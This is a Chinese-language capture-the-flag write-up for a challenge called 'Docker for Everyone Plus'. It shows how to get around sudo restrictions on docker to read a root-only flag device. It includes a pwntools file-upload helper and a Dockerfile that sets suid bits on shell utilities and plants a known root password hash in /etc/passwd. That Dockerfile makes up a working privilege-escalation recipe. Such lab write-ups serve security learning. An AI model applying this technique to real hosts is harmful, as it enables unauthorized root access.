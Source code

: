 ## ![general](https://img.shields.io/badge/general-af2447) Docker for Everyone Plus

前年docker题升级版。现在docker只能用sudo调用了，并且限制了只能特定格式的命令，但是docker镜像可以自己打包上传。flag在一个设备文件里，只有`root`和`disk`组有读写权限。

首先这个题终端可以用`lrzsz`收文件。我用pwntools写了个上传函数，带进度条（不太准是因为字符escape的原因，上传文件大小会比真实文件大小大个百分之几）

```py
def sz_upload(conn, fpath):
    '''
    '''
    conn.sendline(b'rz')
    conn.recvuntil(b'waiting to receive.**')
    
    conn_zm = process(['sz',fpath])
    with tqdm(total = os.stat(fpath).st_size) as pbar:
        while True:
            try:
                resp = conn.recv(1024 * 16, timeout=.1)
                conn_zm.send(resp)

                resp = conn_zm.recv(1024 * 16, timeout=.01)
                conn.send(resp)
                pbar.update(len(resp))
            except EOFError:
                break
    return
```

第一问允许的命令格式`sudo -l`为：
```
User user may run the following commands on dockerv:
    (root) NOPASSWD: /usr/bin/docker run --rm -u 1000\:1000 *, /usr/bin/docker
        image load, !/usr/bin/docker * -u0*, !/usr/bin/docker * -u?0*,
        !/usr/bin/docker * --user?0*, !/usr/bin/docker * -ur*, !/usr/bin/docker
        * -u?r*, !/usr/bin/docker * --user?r*
```

所以用前缀限制了我们只能以UID/GID=1000进入容器。我试了直接在后面加`-u  0`，无效，似乎是前面申请了低权限后面再次申请高权限就会被阻止。

以这种方式进入容器的话，suid的cat似乎用不了，但是直接su可以，记得把容器内的su给上suid权限。

总之参考了[这篇博客](https://www.cnblogs.com/kqdssheng/p/18275541#id2.5)。我容器内的密码哈希的用户名用的和前面不一样，这样似乎就不会检查容器外的密码，但获得的UID也确实是0。

```dockerfile
FROM alpine

RUN chmod 4755 /bin/sh /bin/cat /bin/su /usr/bin/passwd

RUN echo me:x:1000:1000:me:/home/me:/bin/sh >>/etc/passwd
RUN echo you:x:1001:1001:you:/home/you:/bin/sh >>/etc/passwd
# root password is password123
# generate with `openssl passwd -1 -salt r00t password123`
RUN sed -i 's/root::0:0:root:/root:$1$r00t$HZoYdo0F7UZbuKrEXMcah0:0:0:root:/g' /etc/passwd
RUN sed -i 's/root:x:0:0:root:/root:$1$r00t$HZoYdo0F7UZbuKrEXMcah0:0:0:root:/g' /etc/passwd

CMD [ "/bin/sh" ]
```
